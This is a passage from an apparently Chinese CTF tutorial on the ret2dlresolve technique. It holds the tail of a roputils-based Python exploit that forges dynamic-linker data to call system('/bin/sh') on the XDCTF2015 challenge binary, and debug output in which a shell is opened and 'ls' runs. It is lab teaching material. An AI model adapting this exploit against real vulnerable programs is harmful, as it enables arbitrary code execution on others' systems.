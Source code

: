 ```python
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```

关于dl_resolve_call与dl_resolve_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl_resolve执行完之后也是需要有对应的返回地址的。

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python roptool.py
[+] Starting local process './main': pid 6114
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x94 bytes:
    00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
    00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
    00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
    00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
    00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
    00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
    00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
    00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
    00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
    00000090  40 a0 04 08                                         │@···││
    00000094
[DEBUG] Sent 0x64 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
    00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
    00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
    00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
    00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
    00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
    00000060  55 41 52 4f                                         │UARO││
    00000064
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x8d bytes:
    'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
    '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
__init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

```
